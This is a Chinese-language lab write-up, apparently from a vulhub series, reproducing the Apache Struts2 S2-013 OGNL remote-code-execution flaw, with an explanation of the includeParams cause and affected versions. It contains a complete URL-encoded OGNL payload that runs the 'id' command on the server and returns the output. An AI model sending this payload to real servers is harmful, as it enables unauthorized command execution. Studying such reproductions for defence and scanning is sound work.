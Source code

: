 # Struts2_013_远程代码执行

###### by ADummy

### 0x00利用路线

​			直接url执行payload，由于浏览器url输入框的长度有限，可以使用Hackbar插件，或burpsuite抓包测试。

### 0x01漏洞介绍

​			<s:a>includeParams="all">Click here.</s:a>,这个是struts2标签库的a标签，该标签会在页面上显示当前URL

Struts2标签库中的url标签和a标签的includeParams这个属性，代表显示请求访问参数的含义，一旦它的值被赋予ALL或者GET或者POST,就会显示具体请求参数内容。按照正常的需求,把参数urlEncode一下也就够了， 问题在于，struts把参数做了OGNL解析,导致OGNL表达式的执行。

​			影响版本

  		2.0.0 - 2.3.14.1

### 0x02漏洞复现



#### payload：

link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('**id**').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('**dbapp%3D**'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D



​			登录界面

![S2_013_rce_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_013_rce_1.png)



​			Burpsuite抓包

![S2_013_rce_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_013_rce_2.png)

​				

​			Hackbar执行payload

![S2_013_rce_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/S2_013_rce_3.jpg)

### 0x03总结

​				这是笔者的第二篇文章，由于我目前在华顺信安实习，写一些漏洞的POC和EXP，搜集一些可以利用的漏洞，补充到Goby扫描器中。今天刚好在师傅的带领下写了这个漏洞的POC，由于年代久远，及同样的框架完全可以由很多漏洞解决。但还是很具有学习意义。笔者较菜，暂时不能做代码分析。如果有需要，强烈推荐Devil师傅的文章。共勉！

### 0x04参考资料

https://www.cnblogs.com/devi1/p/13486629.html